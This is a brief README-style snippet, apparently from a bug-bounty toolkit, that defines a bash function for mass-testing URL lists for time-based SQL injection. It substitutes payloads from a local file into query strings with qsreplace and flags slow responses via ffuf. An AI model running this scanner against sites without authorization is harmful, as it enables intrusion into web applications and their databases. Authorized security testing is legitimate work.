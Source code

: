 # time-based-sqli-payloads
1.
```
# Time Based Sql Injection
sqliTime()
{
for i in $(cat ~/.path/To/payloads) ; do
  cat $1 | qsreplace "$i" > sqli
  ffuf -u FUZZ -w sqli -s -ft "<5000" | tee -a vulnSqli.txt
  rm sqli
done
}
```
2.
```
> source .bashrc
```
3.
```
> sqliTime urls
> sqliTime urls.txt
```

